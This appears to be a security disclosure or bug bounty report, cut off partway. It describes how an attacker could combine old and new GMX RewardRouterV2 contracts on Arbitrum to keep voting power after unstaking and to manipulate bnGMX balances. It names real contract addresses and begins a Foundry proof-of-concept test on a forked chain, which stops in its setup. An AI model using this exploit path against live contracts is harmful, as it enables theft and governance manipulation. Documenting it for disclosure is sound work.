 ## Manipulating Voting Power and BnGMX Balance through the Combination of Old and New RewardRouterV2

### Brief/Intro

1. A malicious user can acquire a large amount of VotingPower with the combination of old and new versions of rewardRouterV2.

2. A malicious user may manipulate the bnGMX balance with the combination of old and new versions of rewardRouterV2.


new RewardRouterV2 https://arbiscan.io/address/0x159854e14a862df9e39e1d128b8e5f70b4a3ce9b

old RewardRouterV2 https://arbiscan.io/address/0xA906F338CB21815cBc4Bc87ace9e68c87eF8d8F1

These two contacts have exactly the same state variables except for the GlpManager. 

And now the old contact is operating in the same environment as the new contact without any restrictions. 

This is giving malicious users a chance to steal.

### Vulnerability Details

### 1. VotingPower Manipulation. (Critical)

The attacker call unstakeGmx function of RewardRouter(old), not new version. The staked amount is 0, but the votingPower is not zero yet.

POC:

```solidity
pragma solidity ^0.8.13;

import "../../src/PoC.sol";
import "../../src/protocols/GMX/interfaces/IRewardRouterV2.sol";
import "../../src/protocols/GMX/interfaces/IRewardTracker.sol";

contract RewardRouterV2VotingPowerBugTest is PoC {

    uint256 private arbitrumFork;


    IERC20[] private tokens;

    IERC20 private constant gmx = IERC20(0xfc5A1A6EB076a2C7aD06eD22C90d7E710E35ad0a);
    IERC20 private constant govToken = IERC20(0x2A29D3a792000750807cc401806d6fd539928481);

    IRewardRouterV2 private constant rewardRouterV2Old = IRewardRouterV2(0xA906F338CB21815cBc4Bc87ace9e68c87eF8d8F1);
    IRewardRouterV2 private constant rewardRouterV2New = IRewardRouterV2(0x159854e14A862Df9E39E1D128b8e5F70B4A3cE9B);

    IRewardTracker private constant stakedGmxTracker = IRewardTracker(0x908C4D94D34924765f1eDc22A1DD098397c59dD4);

    address private user = address(0xc7f1De8EeB686E7ccBa4b4CEEFDC9Bd8f51364F9);
    address private gov = address(0xF5d278923f4CB4fcfa36Af6F064B8b3d0A8eC7e3);

    uint256 unstakeAmount;

    function setUp() public {
        arbitrumFork = vm.createFork("arbitrum", 190041754);
        vm.selectFork(arbitrumFork);


```